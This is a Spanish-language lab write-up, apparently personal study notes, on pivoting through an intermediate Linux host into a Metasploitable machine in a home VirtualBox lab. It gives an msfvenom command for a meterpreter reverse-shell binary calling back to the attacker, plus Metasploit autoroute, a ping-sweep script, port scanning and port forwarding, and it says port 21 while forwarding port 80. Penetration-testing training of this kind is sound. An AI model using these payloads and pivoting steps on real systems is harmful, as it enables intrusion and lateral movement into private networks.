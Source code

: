 [[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
#pivoting 
### CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20240615202507.png]]

Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20240615202518.png]]

Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20240615202536.png]]

MÁQUINA LINUX INTERMEDIA:
![[Pasted image 20240615202541.png]]

MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20240615202547.png]]

De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20240615202556.png]]
### PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```

![[Pasted image 20240615202610.png]]

Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20240615202616.png]]

Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20240615202621.png]]

En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20240615202626.png]]

Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20240615202631.png]]

Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```

![[Pasted image 20240615202637.png]]

Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20240615202643.png]]

Con la máquina víctima:
![[Pasted image 20240615202646.png]]

Lo ejecutamos y detectamos equipos:
![[Pasted image 20240615202702.png]]

Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```
Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20240615202707.png]]

Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```

